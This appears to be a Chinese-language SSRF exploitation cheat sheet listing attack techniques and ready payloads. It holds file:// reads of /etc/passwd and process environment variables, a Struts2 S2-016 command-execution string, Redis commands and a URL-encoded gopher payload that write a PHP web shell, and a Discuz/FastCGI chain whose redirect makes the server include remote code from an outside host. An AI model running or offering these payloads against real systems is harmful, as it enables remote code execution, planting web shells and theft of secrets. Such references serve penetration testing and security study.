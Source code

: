 ## 302 Redirect Bypass

- 用来绕过protocol限制
- 第一次SSRF，网站有做检查、过滤
- 302跳转做第二次SSRF没有检查

## 本地利用

- file protocol
    - `file:///etc/passwd`
    - `file:///proc/self/cmdline`
        - 看他在跑啥
    - `file:///proc/self/exe`
        - dump binary
    - `file:///proc/self/environ`
        - 读环境变量
    - `curl file://google.com/etc/passwd`
        - 新版已修掉
        - 实测libcurl 7.47可work
    - Java原生可列目录
    - Perl/Ruby open Command Injection

## 远程利用
- Gopher
    - 可伪造任意TCP
    - `gopher://127.0.0.1:5278/xGG%0d%0aININDER`
- 常见例子
    - Struts2
        - S2-016
            - `action:`、`redirect:`、`redirectAction:`
            - `index.do?redirect:${new java.lang.ProcessBuilder('id').start()}`
    - ElasticSearch
        - default port: `9200`
    - Redis
        - default port: `6379`
        - 用SAVE写shell
        ```
            FLUSHALL 
            SET myshell "<?php system($_GET['cmd']) ?>"
            CONFIG SET DIR /www 
            CONFIG SET DBFILENAME shell.php 
            SAVE
            QUIT
        ```
        - URLencoded payload:
        `gopher://127.0.0.1:6379/_FLUSHALL%0D%0ASET%20myshell%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0ACONFIG%20SET%20DIR%20%2fwww%2f%0D%0ACONFIG%20SET%20DBFILENAME%20shell.php%0D%0ASAVE%0D%0AQUIT`
    - FastCGI
        - default port: 9000
        - example
            - Discuz Pwn
                - 302.php: `<?php
header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://kaibro.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
                - x: `<?php system($_GET['cmd']); ?>`
                - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://kaibro.tw/302.php?.jpg[/img]`
    - MySQL
        - 无密码认证可以SSRF